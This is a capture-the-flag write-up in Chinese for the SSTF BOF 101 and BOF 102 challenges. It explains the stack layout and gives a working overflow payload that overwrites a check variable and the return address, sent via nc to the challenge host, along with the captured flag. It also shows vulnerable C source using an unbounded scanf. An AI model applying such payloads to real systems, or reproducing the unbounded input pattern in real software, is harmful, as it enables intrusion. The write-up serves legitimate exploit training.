 可以看到是使用 x86-64 位元且是 little endian，另外沒有 stack canary 保護，但有 PIE (ASLR)

不過經實測 PIE 部分應該是誤報，實際上位置不會變
![](https://i.imgur.com/2140p0h.png)

根據 x64 layout，需要填入 140 個隨便的東西填滿 buf 空間，並填入 `0xdeadbeef` 到 var2(也就是 check 變數)，接著需要隨便填 8 byte 的RBP，就能控制到 return address
![](https://i.imgur.com/vXyd4tU.png)

payload:
```bash!
echo -e "12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890\xef\xbe\xad\xdeAAAAAAAA\x29\x52\x55\x55\x55\x55" | nc bof101.sstf.site 1337
```

![](https://i.imgur.com/rYmUUAg.png)

SCTF{n0w_U_R_B0F_3xpEr7}

## BOF 102
![](https://i.imgur.com/ehMvAnT.png)

題目給了兩個檔案: `bof102` `bof102.c`

bof102.c:
```c=
#include <stdio.h>
#include <stdlib.h>

char name[16];

void bofme() {
        char payload[16];
        puts("What's your name?");
        printf("Name > ");
        scanf("%16s", name);
        printf("Hello, %s.\n", name);
        puts("Do you wanna build a snowman?");
        printf(" > ");
        scanf("%s", payload);
        printf("!!!%s!!!\n", payload);
        puts("Good.");
}

int main() {
        system("echo 'Welcome to BOF 102!'");
        bofme();
        return 0;
}
```
